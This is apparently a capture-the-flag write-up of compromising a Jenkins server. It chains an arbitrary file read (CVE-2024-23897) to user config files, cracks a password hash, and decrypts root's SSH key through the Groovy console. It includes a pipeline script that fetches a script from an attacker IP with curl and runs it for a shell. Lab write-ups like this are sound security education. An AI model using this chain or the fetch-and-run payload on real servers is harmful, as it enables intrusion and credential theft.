# PORT SCAN

* **22** &#8594; SSH
* **8080** &#8594; HTTP (JETTY 10.0.18)

<br><br><br>

# USER & ROOT FLAG
We have our favorite waiter inside port 8080! With no credentials there is not much we can do unless look the users



On the bottom left of the page we can easily find the Jenkins version number 


Searching online I found this version is vulnerable to Unauthenticated Arbitary File Read and with this [PoC](https://github.com/CrackerCat/xaitax-CVE-2024-23897) we can exploit the vulnerability! 



Cool stuff, my first idea was to directly read the temporary admin password (`/var/jenkins_home/secrets/initialAdminPassword`) but we are unlucky since whoever setup jenkins did his job correctly! I had 2 ways now : follow this [cool wirteup](https://www.errno.fr/bruteforcing_CVE-2024-23897.html) on how to decrypt Jenkins key with this exploit or discover more info of the user that is running Jenkins. The latter look way too simple LOL! I have enough experience with Linux and now having just read capabilities is actually cooler! There are probably a lot of way to get some info of the user who is running Jenkins but I decided to go straight to `/proc/self/environ` and read enviroment variable (need to specify the command **keep-build** with flag `-c` [[1](https://github.com/gquere/pwn_jenkins)]). 



Wait if `/var/jenkins_home` is the home directory you wouldn't tell me that....



Damn good catch! Now with some patience and RTFM I know that to find more info about the users I should read the file located at `/var/jenkins_home/users/users.xml` but....



Using other command options would show me at max the first three lines and the file is too large. I decided to do things manually so maybe I can get more info, I downloaded the Jenkins CLI jar file directly from the webserver ([documentation](https://www.jenkins.io/doc/book/managing/cli/#downloading-the-client) was clear about it, I discoveed something new cool!) and run the same command following one of the millions exploit guide you can find online



Jennifer cute girl now I know your ID within Jenkins configuration files, cute <3

Well now we can visit `/var/jenkins_home/users/jennifer_12108429903186576833/config.xml`, get the encrypted password and crack it!



Finally we get access to the Jenkins webapp, now there a lot of ways to get foothoudl through Jenkins but my favorite one is also the simples...using **<u>pipelines</u>**. With this simple scritpt I was able to get access inside the machine

```
pipeline {
    agent any

    stages {
        stage('Hello') {
            steps {
                sh '''
                   curl http://10.10.14.25/bitch >> /tmp/lol.sh; chmod 777 /tmp/lol.sh; bash /tmp/lol.sh
                '''
            }
        }
    }
}
```



We would jump directly inside the jenkins home directory an inside I found **<u>credentials.xml</u>** which store ssh credentials of `root`!



There is a small trick to decrypt this stuff without uploading stuff on our local machine. We can get the string between `<privateKey>...</privateKey>` and use the Groovy console located at `/script` in the jenkins webapp to decrypt it with builtin command



Cool! Now we can redeem the final prize!


